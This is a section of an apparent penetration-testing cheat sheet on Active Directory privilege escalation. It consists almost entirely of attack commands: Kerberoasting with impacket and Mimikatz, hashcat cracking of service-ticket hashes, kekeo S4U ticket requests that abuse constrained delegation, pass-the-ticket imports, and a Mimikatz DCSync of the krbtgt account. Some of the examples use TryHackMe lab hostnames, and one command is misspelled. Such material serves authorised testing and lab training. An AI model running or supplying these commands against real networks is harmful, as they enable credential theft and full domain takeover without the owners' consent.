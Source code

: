 >[Up](#table-of-contents) :arrow_up:
# Privilege Escalation
## Kerberoasting
```powershell
# Linux
impacket-GetUserSPNs [domain.local]/[user]:'[password]' -dc-ip [domain IP] -request

# Windows
Get-DomainUser -SPN
Invoke-Mimikatz -Command '"kerberos::list /export"'

hashcat -m 13100 [hash.txt] /wordlist/
```

## Kerberos Delegation
### Constrained Delegation
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

### USER ###
# kekeo
# Request TGT
tgt::ask /user:[user] /domain:[domain] /password:[Password]

# Request S4U TGS
tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc

# Mimikatz to import
privilege::debug
keberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

### COMPUTER ###
# kekeo
## Request TGT
tgt::ask /user:[machine account] /domain:[domain] /rc4:[ntlm hash of machine]

## Request S4U TGS
tgs::s4u /tgt:[previous ticket] /user:Administrator@[domain] /service:CIFS/mgmtsrv.tech.finance.corp
## Alt service
tgs::s4u /tgt:[previous ticket] /user:Administrator@[domain] /service:CIFS/mgmtsrv.tech.finance.corp|ldap/mgmtsrv.tech.finance.corp

# Mimikatz
kerberos::ptt TGS_....kirbi

klist
# Our next step will depend on the service we have enabled.
## HTTP service
### PSSession
New-PSSession  -ComputerName [computername]
Enter-PSSession -ComputerName [Computername]
### Winrm
winrm -r:[computer] cmd

## LDAP service
Invoke-Mimikatz -Command "lsadump::dcsync /user:<shortdomain>\krbtgt" "exit"
```